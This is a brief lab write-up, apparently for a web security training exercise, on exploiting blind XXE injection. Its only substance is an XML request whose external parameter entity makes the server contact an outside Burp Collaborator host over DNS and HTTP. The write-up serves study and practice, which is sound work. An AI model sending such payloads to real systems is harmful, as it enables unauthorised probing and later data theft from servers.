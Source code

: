 
Target Goal - Exploit blind XXE injection to issue a DNS lookup and HTTP request to Burp Collaborator.

Analysis:
Use burp collaborator

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://tpmbil1qxfhaset3rczxf9s.oastify.com"> %xxe;]>

<stockCheck>
	<productId>
	1
	</productId>
	<storeId>
	1
	</storeId>
</stockCheck>
```